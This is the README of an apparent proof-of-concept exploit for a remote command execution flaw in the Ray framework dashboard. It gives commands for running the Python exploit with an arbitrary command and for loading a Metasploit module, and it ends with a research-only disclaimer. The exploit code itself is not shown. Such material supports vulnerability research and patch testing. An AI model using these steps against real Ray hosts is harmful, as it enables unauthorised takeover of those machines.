 # PoC for a remote command execution vulnerability in Ray framework

Ray is a high-performance distributed execution engine and an open-source artificial intelligence framework. Anyscale, Inc Ray Ray Versions 2.9.3 to 2.40.0 have a command execution vulnerability, which allows an attacker to execute arbitrary commands and control the host where the framework runs.

## Usage

First, install Ray:
```bash
pip3 install -U "ray[default]"
```
Then, start Ray:
```bash
ray start --head --dashboard-host=0.0.0.0
```
Run the Python exploit:
```bash
python3 exploit.py --host http://10.0.2.15:8265 --cmd '<cmd>'
```
## Metasploit module
Copy the Ruby file to Metasploit's related folder:
```bash
cp ray_job_rce.rb /usr/share/metasploit-framework/modules/exploits/multi/misc/
```
Launch Metasploit with `msfconsole` and relad modules with `reload_all` if you can't find the added one.
You can select with `use exploit/multi/misc/ray_job_rce`.
Set the necessary options (`RHOST`, `RPORT`, `COMMAND`, etc.) and run the exploit with the command `exploit`.

## Disclaimer
This exploit script has been created solely for research and the development of effective defensive techniques. It is not intended to be used for any malicious or unauthorized activities. The script's author and owner disclaim any responsibility or liability for any misuse or damage caused by this software. Just so you know, users are urged to use this software responsibly and only by applicable laws and regulations. Use responsibly.
